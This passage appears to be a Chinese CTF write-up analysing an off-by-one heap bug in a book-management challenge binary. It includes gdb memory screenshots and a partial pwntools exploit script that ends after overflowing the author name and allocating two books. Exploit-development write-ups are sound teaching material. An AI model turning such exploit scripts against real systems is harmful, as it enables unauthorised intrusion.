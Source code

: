 ## 深入分析

作者名先输入个N0P3aaaa

![截屏2020-10-19 下午12.27.03](https://n0p3.oss-cn-beijing.aliyuncs.com/Blog/OffbyOne/%E6%88%AA%E5%B1%8F2020-10-19%20%E4%B8%8B%E5%8D%8812.27.03.png)

作者名的输入调用了前面的讲过的EnterAuthName()函数，此时的作者名被存入AuthorName。

ctrl+c再vmmap看一下

![截屏2020-10-19 下午12.30.00](https://n0p3.oss-cn-beijing.aliyuncs.com/Blog/OffbyOne/%E6%88%AA%E5%B1%8F2020-10-19%20%E4%B8%8B%E5%8D%8812.30.00.png)

基地址就是最上面的红色地址 0x555555754000。加上AuthorName的偏移就可以找到N0P3aaaa在内存中的位置。

![截屏2020-10-19 下午1.12.25](https://n0p3.oss-cn-beijing.aliyuncs.com/Blog/OffbyOne/%E6%88%AA%E5%B1%8F2020-10-19%20%E4%B8%8B%E5%8D%881.12.25.png)

第一行指向了数据的地址，也就是0x55555756040，这也是个地址只向第三行的右侧。

输入作者名函数是调用了input_BUG的，所以也存在可以多写入一个字符的问题。我们来测试一下

## 完整EXP

```python
#coding=utf-8
from pwn import *
OptionNum=0
context.log_level='debug'
libc = ELF("/lib/x86_64-linux-gnu/libc-2.27.so")
res=process('./'+Path)
def CreateBook(NameSize,name,DesSize,description):
    res.recvuntil('> ')
    res.sendline('1')
    res.recvuntil('name size:')
    res.sendline(str(NameSize))
    res.recvuntil('chars):')
    res.sendline(name)
    res.recvuntil('size:')
    res.sendline(str(DesSize))
    res.recvuntil('description:')
    res.sendline(description)
def DeleteBook(BookId):
    print("Deleting...")
    res.recvuntil('> ')
    res.sendline('2')
    res.recvuntil('delete: ')
    res.sendline(str(BookId))
def EditBook(BookId,description):
    res.sendline('3')
    res.recvuntil('edit: ')
    res.sendline(str(BookId))
    res.recvuntil('description: ')
    res.sendline(description)
def ChangeAuthName(name):
    res.recvuntil('> ')
    res.sendline('5')
    res.recv()
    res.sendline(name)
def ShowBooks():
    res.recvuntil('> ')
    res.sendline('4')
    return res.recvuntil('> ')
res.recvuntil("name: ")
res.sendline('N0P3aaaabbbbbbbbccccccccdddddddd')
CreateBook(128,"n0p3_book1",32,'n0p3_des')
CreateBook(0x21000,"n0p3_book2",0x21000,"n0p3_des")
```